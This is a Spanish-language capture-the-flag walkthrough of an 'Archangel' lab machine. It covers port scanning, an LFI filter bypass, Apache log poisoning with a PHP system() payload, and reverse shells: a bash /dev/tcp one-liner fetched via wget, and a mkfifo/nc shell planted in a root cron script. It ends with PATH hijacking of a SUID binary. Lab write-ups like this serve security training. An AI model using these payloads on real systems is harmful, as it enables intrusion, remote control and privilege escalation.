# Archangel

## Scanning

```shell
nmap -sS -p- -n -Pn --min-rate 5000 --open -vvv 10.10.209.95 -oG allports
nmap -sC -sV 10.10.209.95 -oN targeted 
```



# 80 

En la página principal se encuentra un correo con el dominio **support@mafialive.thm** por lo que lo agregamos al archivo `/etc/hosts`. Con esto encontramos la primera flag.

```shell
wfuzz -c --hc 404,403 -w /usr/share/wordlists/dirb/common.txt -t 100 -u 'http://mafialive.thm/FUZZ'
```

Buscando con wfuzz podemos ver que existe la página robots.txt.


Al entrar a test.php vemos que encontramos una página la cual podría ser vulnerable a lfi.


Probamos el wrapper filter de php para codificar a base64 y poder leer la página `test.php`.

http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php


```bash
 echo "CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3llZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhlcmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYoIWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJaW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPgoKCg==" | base64 -d
 ```
Usaremos este comando para decodificar la página.



Bypass lfi

http://mafialive.thm/test.php?view=/var/www/html/development_testing/..////////..////////..////////..////////..///////..////..//////etc/passwd


### Log poisoning

Ahora para ejecutar comandos nos ubicaremos en `/var/log/apache2/access.log` donde nos muestra los logs de la página.

Nos conectaremos con netcat y enviaremos el payload `<?php system($_GET['cmd']);?>` lo demás se genera automaticamente.


Luego entraremos a http://mafialive.thm/test.php?view=/var/www/html/development_testing/..////////..////////..////////..////////..///////..////..//////var/log/apache2/access.log&cmd=whoami podemos poner ctrl+u para que nos muestre el resultado más ordenado.



## Reverse shell

Para subir una shell la creamos en nuestra maquina, ya que podemos correr comandos con el log poisoning, entonces podemos descargarnos un archivo y ejecutarlo.

shell.php
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.13.13.243/4444 0>&1
```
Ahora necesitaremos levantar nuestro servicio http con python.

```shell
sudo python -m http.server 80
```

Desde el navegador tendremos que mandar el comando para descargar shell.php con `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..////////..////////..////////..////////..///////..////..//////var/log/apache2/access.log&cmd=wget http://10.13.13.243/shell.sh`

Esperamos la conexión con netcat

```shell
nc -lvp 4444
```

Finalmente mandamos el comando para ejecutar la shell.

`http://mafialive.thm/test.php?view=/var/www/html/development_testing/..////////..////////..////////..////////..///////..////..//////var/log/apache2/access.log&cmd=bash shell.sh`



## Privilege Scalation (Archangel user)

Buscamos las tareas de Crontab

```bash
cat /etc/cron*
```


El usuario root ejecuta `/opt/helloworld.sh` cada min.



Tenemos permiso de modificar este archivo así que podemos editarlo de la siguiente manera.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.13.13.243 4545 >/tmp/f'
```

Esperamos con netcat en nuestra maquina.

```bash
nc -lvp 4545
```

Ya estaríamos como el usuario archangel.


### Obtener una shell interactiva (opcional)

```bash
script /dev/null -c bash
# ctrl + z
stty -a
stty raw -echo
fg # it doesn't show on the screen
reset
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

En vez de 44 y 184 use el numero de filas y columnas que salio al usar `stty -a`.

## Privilege Scalation(Root user)

Para este caso encontramos SUID usando el usuario archangel y notamos que se puede ejecutar con permiso del root el archivo `/home/archangel/secret/backup`.



Cuando ejecutamos el archivo backup usando ltrace nos bota un error con el comando cp. Podríamos hacer **path hijacking**, para que use el comando cp pero uno que modifiquemos.

```bash
cd /tmp
echo "bash" > cp
chmod +x cp
ls -l
export PATH=/tmp:$PATH
/home/archangel/secret/backup
```

